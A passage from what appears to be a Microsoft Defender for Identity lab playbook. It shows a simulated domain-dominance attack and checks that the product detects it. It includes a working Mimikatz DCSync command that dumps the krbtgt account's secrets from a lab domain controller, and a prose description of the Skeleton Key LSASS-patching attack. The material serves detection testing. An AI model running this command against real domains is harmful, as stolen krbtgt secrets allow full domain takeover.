 From the **VictimPC**, in context of **SamirA**, execute the following Mimikatz command:

```dos
mimikatz.exe "lsadump::dcsync /domain:contoso.azure /user:krbtgt" "exit" >> c:\temp\ContosoDC_krbtgt-export.txt
```

We've replicated the "krbtgt" account information to: `c:\\temp\\ContosoDC_krbtgt-export.txt`

![Malicious Replication via mimikatz](media/playbook-dominance-maliciousrep_mimikatz.png)

#### Malicious Replication Detection in [!INCLUDE [Product short](includes/product-short.md)]

Using the [!INCLUDE [Product short](includes/product-short.md)] portal, verify the SOC is now aware of the malicious replication we simulated from VictimPC.

![Malicious replication being detected by [!INCLUDE [Product short](includes/product-short.md)]](media/playbook-dominance-maliciousrep_detected.png)

### Skeleton Key

Another domain dominance method attackers use is known as **Skeleton Key**. Using a Skeleton Key the attacker creates, the attacker can masquerade *as any user* at *any time*. In a Skeleton Key attack, every user can still sign in with their normal password, but each of their accounts is also given a master password. The new master password or Skeleton Key gives anyone who knows it, open access to the account. A Skeleton Key attack is achieved by patching the LSASS.exe process on the domain controller, forcing users to authenticate via a downgraded encryption type.
